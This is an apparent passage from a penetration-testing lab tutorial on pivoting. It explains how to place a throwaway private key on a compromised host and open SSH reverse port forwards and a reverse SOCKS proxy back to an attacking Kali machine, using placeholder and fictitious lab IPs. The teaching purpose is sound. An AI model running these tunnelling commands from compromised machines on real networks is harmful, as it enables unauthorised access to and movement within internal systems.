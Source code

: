 The final entry in the `authorized_keys` file should look something like this:

![The syntax shown above, in place within the file](assets/055753470a05.png)

Next. check if the SSH server on your attacking machine is running:
`sudo systemctl status ssh`

If the service is running then you should get a response that looks like this (with "active" shown in the message):
![systemctl output when checking SSH is active. You should see active (running) in the output](assets/08746aa1021e.png)

If the status command indicates that the server is not running then you can start the ssh service with:
`sudo systemctl start ssh`

The only thing left is to do the unthinkable: transfer the private key to  the target box. This is usually an absolute no-no, which is why we  generated a throwaway set of SSH keys to be discarded as soon as the  engagement is over.

With the key transferred, we can then connect back with a reverse port forward using the following command:
`ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN`

To put that into the context of our fictitious IPs: 172.16.0.10 and  172.16.0.5, if we have a shell on 172.16.0.5 and want to give our  attacking box (172.16.0.20) access to the webserver on 172.16.0.10, we  could use this command on the 172.16.0.5 machine:
`ssh -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -fN`

This would open up a port forward to our Kali box, allowing us to access the 172.16.0.10 webserver, in exactly the same way as with the forward  connection we made before!

In newer versions of the SSH client, it is also possible to create a reverse proxy (the equivalent of the `-D` switch used in local connections). This may not work in older clients,  but this command can be used to create a reverse proxy in clients which  do support it:
`ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN`

This, again, will open up a proxy allowing us to redirect all of our traffic  through localhost port 1337, into the target network.
